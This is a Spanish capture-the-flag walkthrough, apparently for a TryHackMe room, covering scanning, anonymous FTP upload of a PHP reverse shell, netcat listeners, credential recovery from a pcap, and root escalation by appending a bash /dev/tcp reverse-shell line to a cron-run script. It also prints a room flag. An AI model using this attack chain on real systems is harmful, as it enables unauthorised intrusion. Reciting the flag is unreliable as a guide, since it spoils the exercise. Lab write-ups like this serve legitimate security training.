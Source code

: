 Lo primero que haremos será hacer un nmap con el siguiente comando: 
sudo nmap -A -sV -sC -T4 -p- --defeat-rst-ratelimit 10.10.92.79

Ahora intentamos hacer fuzzing 
gobuster dir -u http://10.10.92.79/ -w /usr/share/wordlists/dirb/big.txt 

Y miramos y hay un /files si accedemos podemos ver que hay un servidor ftp:
Intentamos conectarnos con anonymous con el siguiente comando: 

ftp anonymous@10.10.92.79

¡[img](img/img01)
 
Una vez dentro haremos un put e intentaremos meter una reverse shell: 
put /home/kali/Desktop/php-reverse-shell.php ./php-reverse-shell.php
Y ahora la ejecutamos y ponemos en escucha nuestro kali linux: 
nc -lvnp 1234 y ya hemos entrado, ahora vamos a upgradear la shell con: 
python -c 'import pty; pty.spawn("/bin/bash")'

¡[img](img/img02)
 
Y sale que el ingrediente es /love, así que ya tenemos la primera respuesta.
Ahora hacemos un ls y vemos un directorio sospechoso, dentro vemos un pcap, nos lo pasamos a nuestra maquina con el comando: 
cp /incidents/suspicious.pcapng /var/www/html/files/ftp
Y si lo abrimos con el wireshark veremos que hay varias peticiones al puerto 4444, le damos a follow --> TCP Stream y podemos ver algunos comandos donde encontramos la contraseña de lennie.

¡[img](img/img03)
 
Y ahora intentamos entrar por ssh con el siguiente comando: 
ssh lennie@10.10.92.79 y ya estamos dentro.
 
¡[img](img/img04)

Si hacemos un cat user.txt vemos la segunda flag la cual es: THM{***************}

Ahora haremos el siguiente comando para ver los binarios: 
find / -perm -u=s -type f 2>/dev/null
Y ahora hacemos un ls -lart y vemos que el script se puede ejecutar como root y que cada minuto se está actualizando, por lo tanto lleva un crontab y una tarea programada.

¡[img](img/img05)
 
Y buscamos bash reverse shell y lo metemos en el print.sh y ya ponemos el puerto en escucha y hacemos un ls y tenemos la flag.
Usando pspy64 pude ver que planner.sh se ejecuta cada minuto y modifica el contenido de startup_list.txt. 

¡[img](img/img06)

 
Ahora haremos este comando para modificar /etc/print.sh
echo “bash -i >& /dev/tcp/<attackbox_ip>/<listening_port> 0>&1” >> /etc/print.sh”
Ahora pondremos el comando rlwrap nc .nlvp 4444 y en un minuto tendremos ya la Shell, accedemos con un ls y ya tenemos la flag: THM{f963aaa6a430f210222158ae15c3d76d}

¡[img](img/img07)
